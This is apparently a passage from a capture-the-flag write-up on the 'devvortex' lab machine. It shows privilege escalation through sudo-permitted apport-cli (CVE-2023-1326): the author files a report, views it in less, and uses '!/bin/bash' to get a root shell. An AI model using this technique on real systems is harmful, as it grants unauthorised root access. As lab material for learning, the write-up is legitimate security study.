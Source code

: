 ```bash
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
He can run `apport-cli`. I check [gtfobins](https://gtfobins.github.io/) but nothing there. I then search for *"apport-cli exploit"* and the first result is [this CVE](https://nvd.nist.gov/vuln/detail/CVE-2023-1326). The vulnerable versions are specified as apport-cli 2.26.0 and earlier. I run `apport-cli -v` and see the version is `2.20.11`, so it should be vulnerable. The NIST page states that *"If a system is specially configured to allow unprivileged users to run sudo apport-cli, less is configured as the pager, and the terminal size can be set: a local attacker can escalate privilege."*, which seems like it's this exact scenario. I can run `apport-cli` with sudo, `less` is almost always the default pager (but I can check this with `cat ~/.bashrc`), and I can set my terminal size, as that's what I did in the python pty trick with `stty rows 69 columns 127`.

I have a pretty good idea of how this exploit works, and I want to see if I can figure it out without viewing a proof of concept. My guess is that apport, which is a program to generate crash reports, has a way of landing you inside a `less` window. `Less`, when ran with `sudo`, can be used to get a root shell by running `!/bin/bash` while inside of it. Because `apport-cli` was run with `sudo`, the less window will be as well. So let's try to get ourselves inside a less window.

I run `apport-cli --help` to get an idea of the commands. I see that `-f` will start up in bug filing mode, and it wants me to supply either a PID with `-P` or a package with `-p`. So I run `sudo apport-cli -f -p apport` I then get a prompt asking what I would like to do. One option is `V: View Report`, sounds promising. So I hit V, and find myself inside a `less` window! I then run `!/bin/bash` and get a root shell! Very cool.
```bash
# Running --help to get my bearings
logan@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia$ sudo /usr/bin/apport-cli --help
Usage: apport-cli [options] [symptom|pid|package|program path|.apport/.crash file]

Options:
  -h, --help            show this help message and exit
  -f, --file-bug        Start in bug filing mode. Requires --package and an
                        optional --pid, or just a --pid. If neither is given,
                        display a list of known symptoms. (Implied if a single
                        argument is given.)
  -w, --window          Click a window as a target for filing a problem
                        report.
  -u UPDATE_REPORT, --update-bug=UPDATE_REPORT
                        Start in bug updating mode. Can take an optional
                        --package.
  -s SYMPTOM, --symptom=SYMPTOM
                        File a bug report about a symptom. (Implied if symptom
                        name is given as only argument.)
  -p PACKAGE, --package=PACKAGE
                        Specify package name in --file-bug mode. This is
                        optional if a --pid is specified. (Implied if package
                        name is given as only argument.)
  -P PID, --pid=PID     Specify a running program in --file-bug mode. If this
                        is specified, the bug report will contain more
                        information.  (Implied if pid is given as only
                        argument.)
  --hanging             The provided pid is a hanging application.
  -c PATH, --crash-file=PATH
                        Report the crash from given .apport or .crash file
                        instead of the pending ones in /var/crash. (Implied if
                        file is given as only argument.)
  --save=PATH           In bug filing mode, save the collected information
                        into a file instead of reporting it. This file can
                        then be reported later on from a different machine.
  --tag=TAG             Add an extra tag to the report. Can be specified
```